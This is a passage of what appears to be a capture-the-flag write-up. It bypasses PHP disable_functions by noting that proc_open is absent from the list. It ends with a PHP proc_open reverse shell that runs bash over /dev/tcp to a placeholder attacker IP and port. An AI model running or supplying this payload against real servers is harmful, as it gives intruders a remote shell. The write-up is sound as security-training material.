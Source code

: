 **lets upload our file to test by page parameter in phar://**

**results :**

<figure><img src="../../.gitbook/assets/10 (1).png" alt=""><figcaption></figcaption></figure>

**we notice that disabled functions**

\


| disable\_functions | pcntl\_alarm,pcntl\_fork,pcntl\_waitpid,pcntl\_wait,pcntl\_wifexited,pcntl\_wifstopped,pcntl\_wifsignaled,pcntl\_wifcontinued,pcntl\_wexitstatus,pcntl\_wtermsig,pcntl\_wstopsig,pcntl\_signal,pcntl\_signal\_get\_handler,pcntl\_signal\_dispatch,pcntl\_get\_last\_error,pcntl\_strerror,pcntl\_sigprocmask,pcntl\_sigwaitinfo,pcntl\_sigtimedwait,pcntl\_exec,pcntl\_getpriority,pcntl\_setpriority,pcntl\_async\_signals,pcntl\_unshare,error\_log,system,exec,shell\_exec,popen,passthru,link,symlink,syslog,ld,mail,stream\_socket\_sendto,dl,stream\_socket\_client,fsockopen |
| ------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |

**These functions won’t work, and include most of the ones necessary to get execution. However, I could notice that** `proc_open` **isn’t listed**

**so lets use tool called dfunc-bypasser.py that bypass disabled function bypasser**

based on documentation on php [https://www.php.net/manual/en/function.proc-open.php](https://www.php.net/manual/en/function.proc-open.php)\
proc\_open

(PHP 4 >= 4.3.0, PHP 5, PHP 7, PHP 8)

proc\_open — Execute a command and open file pointers for input/output

so lets proc\_open reverse shell

here already in github

{% embed url="https://gist.github.com/noobpk/33e4318c7533f32d6a7ce096bc0457b7" %}

lets edit all code to

```php
<?php $descspec = array( 0 => array("pipe", "r"), 1 => array("pipe", "w"), 2 => array("pipe", "w") ); $cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/<attacker-ip>/<attacker-port> 0>&1'"; $proc = proc_open($cmd, $descspec, $pipes);
```
